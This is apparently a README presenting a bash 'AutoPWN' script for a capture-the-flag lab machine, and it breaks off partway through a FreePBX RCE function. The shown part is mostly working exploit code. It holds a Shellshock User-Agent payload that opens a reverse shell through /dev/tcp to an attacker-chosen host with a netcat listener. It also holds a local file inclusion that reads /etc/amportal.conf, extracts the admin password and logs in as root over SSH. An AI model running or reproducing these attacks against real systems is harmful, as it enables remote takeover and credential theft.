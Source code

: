 # AutoPWN

Create the autopwn file:

```
vim autopwn-beep.sh
```

Add the following code:

```shell
#!/bin/bash

ctrl_c(){
	echo "[!] Exiting..."
	exit 1
}

trap ctrl_c INT

shellshock(){
	echo "[+] Shellshock."
	set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
	nc -lvnp $lport &
    payload=$(timeout 4 curl -sk "https://10.10.10.7:10000/session_login.cgi" -A "() { :; };/bin/bash -i >& /dev/tcp/$lhost/$lport 0>&1")
    fg %1
}

lfi(){
	echo "[+] File disclosure via LFI"
	pass=$(curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -oP "AMPMGRPASS=(.*)" | cut -d'=' -f 2 | tail -n 1)
	echo "[!] Wait..."
	which sshpass &>/dev/null
	if [ $? -eq 0 ]; then
		sshpass -p "$pass" ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@10.10.10.7
	else
		read -p "[+] The package 'sshpass' is not installed, do you want to install it? (yes/no) " answer
		if [ $answer == "yes" ];then
			sudo apt-get update &>/dev/null && sudo apt-get install sshpass -y &>/dev/null
			sshpass -p "$pass" ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@10.10.10.7
		else
			echo "[!] If you don't want to install the package you can just login with credentials user=root pass=$pass"
			exit 0
		fi
	fi
}


rce_vuln(){
    echo "[+] RCE via FreePBX"
    set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
    nc -lvnp $lport &
```
